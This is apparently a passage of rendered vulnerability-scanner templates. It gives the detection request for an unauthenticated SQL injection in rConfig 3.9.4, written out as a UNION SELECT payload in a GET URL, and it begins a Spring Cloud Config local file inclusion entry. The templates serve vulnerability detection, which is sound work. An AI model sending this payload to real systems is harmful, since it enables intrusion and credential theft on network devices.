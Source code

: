 **Type - status**

- status
  1. 200

**Type - dsl**

- dsl
  1. !contains(tolower(body), "\<html")

---

# rConfig 3.9.4 - SQL Injection

## Description

- rConfig 3.9.4 and previous versions has unauthenticated compliancepolicyelements.inc.php SQL injection. Because nodes' passwords are stored by default in cleartext, this vulnerability leads to lateral movement, granting an attacker access to monitored network devices.
- severity - critical
- tags - cve,cve2020,rconfig,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/compliancepolicyelements.inc.php?search=True&searchField=antani'+union+select+(select+concat(0x223e3c42523e5b70726f6a6563742d646973636f766572795d)+limit+0,1),NULL,NULL,NULL,NULL+--+&searchColumn=elementName&searchOption=contains

### Matchers

**Type - status**

- status
  1. 200

**Type - word**

- words
  1. [project-discovery]
- part - body

---

# Spring Cloud Config Server - Local File Inclusion

## Description

- Spring Cloud Config Server versions 2.2.x prior to 2.2.3, versions 2.1.x prior to 2.1.9, and older unsupported versions allow applications to serve arbitrary configuration files through the spring-cloud-config-server module. A malicious user or attacker can send a request using a specially crafted URL that can lead to a local file inclusion attack.
- severity - high
- tags - cve,cve2020,lfi,springcloud,config,traversal,kev
